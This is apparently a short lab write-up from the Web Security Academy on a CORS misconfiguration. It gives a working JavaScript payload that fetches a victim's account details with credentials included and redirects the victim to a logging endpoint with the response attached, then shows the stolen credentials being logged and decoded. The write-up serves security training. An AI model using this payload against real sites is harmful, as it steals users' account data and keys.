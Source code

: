 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	The script does the following:
	// Create an XMLHttpRequest instance.   
	// Set the event handler that will be called when the response is received.   
	// opening a GET request to the URL to retrieve account details   
	// Sending cookies and HTTP authentication information in the request   
	// Sending the request   
	// Event handler function called when a response is received from the server   
	// forwarding the current page to a log file with the received response text as parameter   
	
2.After supposedly executing the script on victims machine his credentials get logged:     

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
